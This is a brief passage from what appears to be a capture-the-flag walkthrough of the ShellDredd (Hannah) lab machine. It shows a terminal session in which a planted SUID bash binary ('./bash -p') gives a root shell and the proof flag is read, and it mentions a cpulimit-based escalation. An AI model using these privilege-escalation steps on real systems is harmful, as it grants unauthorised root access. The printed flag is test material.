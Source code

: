 bin   home            lib32       media  root  sys   var

boot  initrd.img      lib64       mnt    run   temp  vmlinuz

dev   initrd.img.old  libx32      opt    sbin  tmp   vmlinuz.old

etc   lib             lost+found  proc   srv   usr

hannah@ShellDredd:/$ cd temp/

hannah@ShellDredd:/temp$ ./bash -p

bash-5.0# cd root

bash: cd: root: No such file or directory

bash-5.0# cd /root

bash-5.0# ls

proof.txt  root.txt

bash-5.0# cat root.txt 

Your flag is in another file...

bash-5.0# cat proof.txt 

c2a2e74b3fb38ef1d7dfba26a65760da

I like the CPULIMIT method myself since it makes more sense. Basically, CPULIMIT is a cpu tool that also has the ability to run a command. This one feature is utilized to escalate privileges.

Went through [this TTP for recon](https://blog.razrsec.uk/shelldredd-hannah-walkthrough/) and [this TTP for privilege escalation](https://www.hackingarticles.in/shelldredd-1-hannah-vulnhub-walkthrough/)